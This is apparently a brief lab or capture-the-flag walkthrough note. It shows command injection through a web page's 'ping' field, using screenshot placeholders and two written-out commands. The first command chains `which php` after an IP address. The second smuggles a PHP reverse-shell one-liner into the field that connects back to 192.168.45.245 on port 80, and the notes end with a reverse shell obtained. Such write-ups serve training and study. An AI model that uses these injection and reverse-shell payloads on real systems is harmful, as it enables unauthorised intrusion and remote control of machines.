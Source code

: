 identify `php` is on the machine with `192.168.45.245; which php`
![[Pasted image 20250113182618.png]]
found payload in `revshells`
![[Pasted image 20250113182801.png]]
utilize this payload in the `ping` field
```bash
192.168.45.245; php -r '$sock=fsockopen("192.168.45.245",80);`sh <&3 >&3 2>&3`;'
```
![[Pasted image 20250113182741.png]]
got a `reverse shell`
![[Pasted image 20250113182843.png]]